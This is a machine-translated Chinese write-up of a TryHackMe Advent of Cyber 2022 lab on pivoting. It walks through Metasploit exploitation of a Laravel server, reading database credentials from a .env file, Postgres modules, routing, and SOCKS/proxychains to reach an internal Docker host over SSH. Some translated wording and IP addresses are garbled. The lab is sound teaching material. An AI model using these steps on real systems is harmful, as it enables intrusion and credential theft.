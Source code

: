# 绕轴旋转

> 原文：<https://infosecwriteups.com/pivoting-253d65c6c867?source=collection_archive---------3----------------------->

## THM-2022 年赛博 4 的第 9 天来临

嘿，黑客，今天我将带你完成第九天的旋转任务。我们开始吧！

Docker:如果你看到存在一个文件:/。在根目录下的 dockerenv，那么就可以知道应用程序正在 docker 上运行。

这个房间是关于在一个叫做 Metasploit 的框架上交换模块的。Metasploit 利用对目标系统的初始访问。有趣的是:它是免费的！

从给定机器上的 recon 开始，进行基本的 nmap 扫描:

![](img/3e56d8c23939f7863038a931ac05527b.png)

我们看到一个开放的端口 80，导航到我们看到它使用 laravel 的网页

查找 laravel 版本 8 的常见漏洞

![](img/5d9066e7ed21f05d3061aa71b01032ac.png)

目标机器使用的是 linux，apache server 的版本，所以我们可以使用远程代码执行。

通过在终端中键入“msfconsole”来启动 metasploit。

![](img/a720471d1916225a40be3aacc540fc1f.png)

在 vm 中设置 rhost(目标 ip)的值，lhost 为 tun0，在基于 web 的 kali 中设置 eth0

```
set rhosts <machine-ip>
set lhost tun0/eth0
check 
```

使用“运行”或“利用”运行利用漏洞。如果它不运行，输入“设置 ForceExploit 为真”

成功利用目标 ip 后，您可以获得您的用户的用户 id。这是一个不稳定的壳层，要得到一个稳定的壳层，我们需要一个叫做 meterpreter 的壳层，它在很多方面都很有用。您可以在当前用户上使用命令启动 meterpreter 会话:

```
sessions -u 1
and then run using:
sessions -i <session id of meterpreter>
```

![](img/90f2ebe4d3d8f2ef5fc7055d2eee6d6a.png)

我们找到了

接下来，让我们列出该用户下的根目录。

![](img/9e31b51c4f6468721d5ce6b96c377a00.png)

现在我们知道它在 docker 上运行，创建一个 shell。

的。/var/www 中的 env 文件是我们特别感兴趣的，因为它可能包含 datab

![](img/bb22eab1048cf2a0a0252e0e76abb550.png)

我们可以看到有一个数据库，用户名和密码是“postgres”耶！

使用“退出”退出 shell 模式。

因为我们不知道这个名为 webservice_database 的数据库主机的 ip 地址:

![](img/7a4132fe555e9de4b4e0a7887a8f4127.png)

记下来，我们需要这个。

现在，您可以尝试以下命令

```
ip a or ifconfig 
```

要查看 docker 容器所在机器的 ip 地址。

但是在这种情况下这些都不起作用，所以我们采用默认的“127.17.0.1”。

![](img/44df5b74983d6f753a2a1ff77d08ad28.png)

现在退出 shell，并在后台运行当前的 meterpreter 会话。

现在让我们搜索数据库漏洞:

auxiliary/scanner/postgres/postgres _ schema dump 是你接下来要使用的漏洞。

![](img/80f1c1e41b8464afcaa14f4126a5f094.png)

我们有一个名为 users 的表。

在我们继续之前，我们需要修改 metasploit 的内部*路由表。*

该路由表决定了通过何处发送网络流量，例如，通过 Meterpreter 会话。通过这种方式，我们使用 Meterpreter 来进行 pivot:将流量发送到网络上的其他机器。

```
route add <IP/subnet> <meterpreter-session-id>
```

![](img/de4d128fc0dec191cf4bb195b741d9f8.png)

现在让我们使用 auxiliary/admin/postgres/postgres _ readfile:PostgreSQL Server 通用查询。

![](img/219a230e78e73b07ef05e39cbf2c750f.png)

运行这个，你会得到用户表和“圣诞老人”的密码，呀！

现在这完成了 metasploit 的基础，接下来是主要部分“旋转”。

socks 代理服务器:启动 SOCKS 代理服务器-> SOCKS 代理是一个中间服务器，支持在两台机器之间中继网络流量。

![](img/6869c969c9beb93f9ae6c14e685affe8.png)

srvport 是 1080

现在，您可以使用 socks 代理向 docker 发送请求。像`curl`这样的工具支持通过 socks 代理服务器经由`--proxy`标志发送请求:

```
curl --proxy socks5://127.0.0.1:1080 http://172.17.0.1
```

现在/etc 文件夹中有一个名为 proxychains4.conf 的文件，打开它并编辑内容

![](img/8b649263b492def160562c59b5e20f66.png)

现在，如果该工具本身不支持使用 socks 代理的选项，ProxyChains 可以截获该工具打开新网络连接的请求，并通过 socks 代理路由该请求。

```
proxychains curl http://127.17.0.1  //strict chain 127.0.0.1:1080  ...  172.17.0.1:80
```

这意味着我们可以访问 docker 应用程序。让我们运行一次 nmap 扫描，看看哪些端口是打开的:

```
proxychains nmap -F -sT -Pn 172.17.0.1
```

![](img/56e73d4bbf8c3a740adf0ad1c9439a5c.png)

我们看到 ssh 是开放的。

让我们回到 metasploit 并搜索 ssh。

```
run ssh://santa_username_here:santa_password_here@172.17.0.1
```

![](img/ba1fe4d3695a3f80d149c4aa029bf2df.png)

获取此的 meterpreter 会话并找到根标志:)

天哪，这对于一天来说太多了，但是我们发现了如何从一个应用程序转到另一个应用程序；)使用 socks proxy 和 proxychains 之类的工具。

还有其他的旋转方法，如果这个主题看起来很有趣，看看是什么！

继续黑！

## 来自 Infosec 的报道:Infosec 每天都有很多内容，很难跟上。[加入我们的每周简讯](https://weekly.infosecwriteups.com/)以 5 篇文章、4 个线程、3 个视频、2 个 GitHub Repos 和工具以及 1 个工作提醒的形式免费获取所有最新的 Infosec 趋势！